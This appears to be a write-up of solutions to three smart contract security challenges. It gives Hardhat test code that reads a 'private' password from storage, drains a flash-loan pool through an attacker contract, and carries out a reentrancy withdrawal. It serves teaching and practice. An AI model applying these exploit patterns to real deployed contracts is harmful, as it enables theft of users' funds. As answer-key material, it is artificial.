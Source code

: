 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the do-not-trust.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `Reenter.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

